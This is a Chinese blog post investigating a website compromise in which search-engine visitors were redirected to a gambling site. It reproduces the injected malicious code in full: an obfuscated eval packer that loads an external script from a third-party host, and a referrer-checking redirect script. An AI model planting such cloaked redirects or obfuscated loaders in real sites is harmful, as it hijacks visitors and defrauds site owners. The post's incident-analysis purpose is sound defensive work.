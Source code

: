 ```yaml
---
layout: post
title:  "记一次站点被挂马问题排查"
date:   2018-06-08 15:14:54
categories: 安全
tags: 挂马 篡改
---
```


* content
{:toc}

## 记一次站点被挂马问题排查

---
起因，在下班准备回家之际，收到几条朋友发来的信息，说他的网站在百度搜索做信息流广告推广，但是从百度搜索点击打开就会跳转的博彩网站，让我帮忙排查下问题，是不是被挂马了，于是乎就开始了后面的故事

---
> 为了保护网站隐私，假定网站地址是：http://www.xxx.com

收到消息后我尝试操作并收集到下面现象内容：

现象1：通过域名直接打开网站，可以正常打开，不会跳转到博彩站    
现象2：通过百度/搜狗搜索引擎，搜索到网站后点击打开就会跳转到博彩站

---











#### 开始排查 

* **网站是怎么跳转的？** 

网站跳转无非就是这两种：服务端重定向跳转/前端JS触发跳转，我开始用Charles抓包，列出抓包请求发起顺序大概是这样的（省略无关的请求）：

1. http://www.xxx.com
2. https://www.cpdas8.com/cxc.js
3. https://www.das8cx.com/ [博彩站]

先打开站点www.xxx.com返回Code=200，不是服务端重定向Code=302，是由前端发起跳转，并且注意到：cxc.js，请求头Referer=www.xxx.com，这个并非站点前端开发需要引入的脚本，打开地址看代码如下：


```javascript

(function () {
    /*百度推送代码*/
     var bp = document.createElement('script');
     bp.src = '//push.zhanzhang.baidu.com/push.js';
     var s = document.getElementsByTagName("script")[0];
     s.parentNode.insertBefore(bp, s);
     /*360推送代码*/
     var src = document.location.protocol + '//js.passport.qihucdn.com/11.0.1.js?8113138f123429f4e46184e7146e43d9';
     document.write('<script src="' + src + '" id="sozz"><\/script>');
     })();

document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln("if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )");
document.writeln("location.href=\"https://www.das8cx.com/\";");
document.writeln("</script>");

```

看代码就知道抓到了元凶，这里执行了location.href到博彩站，但是看主页html源码里并没有cxc.js的引入，继续后面的排查

---

* **cxc.js是如何在主页里引入的？**

带着这个疑问，打开了首页源码，大概过了下，没有发现引入脚本的地方，就开始怀疑是不是动态引入的，再次查看源码，看到一段被混淆加密压缩过代码：
```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('l["\\d\\e\\1\\m\\j\\8\\n\\0"]["\\6\\4\\9\\0\\8"](\'\\i\\2\\1\\4\\9\\3\\0 \\0\\k\\3\\8\\c\\7\\0\\8\\h\\0\\5\\f\\b\\q\\b\\2\\1\\4\\9\\3\\0\\7 \\2\\4\\1\\c\\7\\o\\0\\0\\3\\2\\p\\5\\5\\6\\6\\6\\a\\1\\3\\d\\b\\2\\r\\a\\1\\e\\j\\5\\1\\h\\1\\a\\f\\2\\7\\g\\i\\5\\2\\1\\4\\9\\3\\0\\g\');',28,28,'x74|x63|x73|x70|x72|x2f|x77|x22|x65|x69|x2e|x61|x3d|x64|x6f|x6a|x3e|x78|x3c|x6d|x79|window|x75|x6e|x68|x3a|x76|x38'.split('|'),0,{}))
```
感觉事蹊跷，不管三七二十一先到谷歌开发者工具控制台里执行看看，截取重要提示信息：
```
A parser-blocking, cross site (i.e. different eTLD+1) script,https://www.cpdas8.com/cxc.js, is invoked via document.write

```
![image](http://blog.thankbabe.com/imgs/mm_tz.png)

明了了，就是这段脚本把cxc.js动态的引入到站点里，现在跳转的原因是找到了，但是为啥会好端端的多了这段代码，继续后面的分析

---

* **为什么主页源码会被篡改加入了一段脚本呢？**

站点是通过阿里云服务器的虚拟空间进行部署的，服务器本身应该没有问题
目前猜测有两种可能性：
1. FTP暴力破解，成功连接上FTP后进行篡改
2. 站点安全漏洞，被上传了木马程序后被执行，篡改了源码

后面问了下FTP密码是设置的挺简单的，所以评估可能是FTP暴力破解导致，细思极恐

---
番外，里面还有段篡改SEO关键词代码，这里也需要去掉：   
篡改了keyword/description/title
![image](http://blog.thankbabe.com/imgs/mm_seo.png?v=666)

---

#### 问题总结：

通过抓包和代码分析可以知道跳转到博彩站的流程是这样的：
1. 打开首页，脚本执行了evel(混淆加密压缩)，动态引入cxc.js
2. 引入的cxc.js里执行了(function (){/* 跳转逻辑 */})()，如果站点referrer是搜索引擎过来的就跳转到博彩站，不是就不做跳转直接正常打开站点
3. 知道原理后就很清晰明白上面现象的原因，并且可以很清楚的怎么去修复

站点源码被侵入篡改问题：

* 站点的开发需要注意WEB安全问题，文件上传漏洞，脚本注入，SQL注入，跨站攻击，等
* 站点的服务器/FTP/后台账号密码，不要设置的太随意，要有一定的复杂度，不然很容易被暴力破解

---
辅助手段-网站安全检测：
* [华为漏洞扫描服务](https://www.huaweicloud.com/product/vss.html)
* [360网站安全](http://webscan.360.cn/)
* [百度网站体检](https://ziyuan.baidu.com/safe/)
* [百度云观测](http://ce.baidu.com/index/guance)


---
> 发布时间：2018-06-08